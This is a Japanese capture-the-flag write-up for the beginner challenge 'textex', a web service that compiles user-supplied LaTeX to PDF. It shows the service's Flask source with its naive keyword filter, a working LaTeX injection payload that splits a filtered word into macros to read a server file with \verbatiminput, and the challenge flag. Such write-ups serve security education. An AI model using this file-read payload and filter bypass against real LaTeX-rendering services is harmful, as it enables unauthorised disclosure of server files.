

# textex

## 問題文
texをpdfにするサービスを作りました。  
texで攻撃することはできますか？  
[https://textex.quals.beginners.seccon.jp](https://textex.quals.beginners.seccon.jp/)  
[textex.tar.gz](files/textex.tar.gz) 31fd2c7d44bf76b937e3d141032ac62b5e301dee  

## 難易度
**easy**  

## 作問にあたって
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)に最近ペイロードが追加されていたため問題にしました。  
コピペだけでは解けないようにしたつもりです。  
ダミーフラグに起因する問題サーバとの差異が見られましたが、原因の特定が容易であるため競技の範囲内と判断しました(惜しいところまでいった方はごめんなさい)。  

## 解法
texをpdfに変換するサービスが動いているようだ。  
  
配布されたファイルからflagファイルにフラグが書かれているようだ。  
ソースコードの主要な関数は以下のようになっている。  
```python
~~~
def tex2pdf(tex_code) -> str:
    # Generate random file name.
    filename = "".join([random.choice(string.digits + string.ascii_lowercase + string.ascii_uppercase) for i in range(2**5)])
    # Create a working directory.
    os.makedirs(f"tex_box/{filename}", exist_ok=True)
    # .tex -> .pdf
    try:
        # No flag !!!!
        if "flag" in tex_code.lower():
            tex_code = ""
        # Write tex code to file.
        with open(f"tex_box/{filename}/{filename}.tex", mode="w") as f:
            f.write(tex_code)
        # Create pdf from tex.
        subprocess.run(["pdflatex", "-output-directory", f"tex_box/{filename}", f"tex_box/{filename}/{filename}.tex"], timeout=0.5)
    except:
        pass
    if not os.path.isfile(f"tex_box/{filename}/{filename}.pdf"):
        # OMG error ;(
        shutil.copy("tex_box/error.pdf", f"tex_box/{filename}/{filename}.pdf")
    return f"{filename}"

@app.route("/pdf", methods=["POST"])
def pdf():
    # tex to pdf.
    filename = tex2pdf(request.form.get("tex_code"))
    # Here's your pdf.
    with open(f"tex_box/{filename}/{filename}.pdf", "rb") as f:
        pdf = io.BytesIO(f.read())
    shutil.rmtree(f"tex_box/{filename}/")
    return send_file(pdf, mimetype="application/pdf")
~~~
```
`pdflatex`に入力したLaTeXコードを渡しているようだ。  
壊れたtexを送信するとエラーpdfが返ってくるので、悪用できそうにない(本当はいろいろできるかもしれない)。  
ここでLaTeXにはファイルを読み取る機能があることを思い出す。  
ペイロードを探すと[LaTex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)が見つかる。  
これで任意のファイルが読みだせそうだ(`-shell-escape`がついていないので`\write18`のRCEは難しい)。  
文字列`flag`が消されるので、バイパス手法を考える。  
LaTeXはマクロ定義が可能なので、文字列`flag`を分割してやればよい。  
以下のtexでファイルを読み出す。  
```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}

\def \fl {fl}
\def \ag {ag}

\verbatiminput{\fl\ag}

\end{document}
```
送信するとflagが書き込まれたpdfが返ってくる。  
ちなみにLeTexファイルとして読み込む`\input`を用いる場合、flag形式が`ctf4b{[\x20-\x7e]+}`なので特殊文字(`_`)でエラーが発生する。  
これはローカルではフラグがダミーであるため発生しなかったかもしれないが、`\catcode`などを用いて回避する必要がある。  

## ctf4b{15_73x_pr0n0unc3d_ch0u?}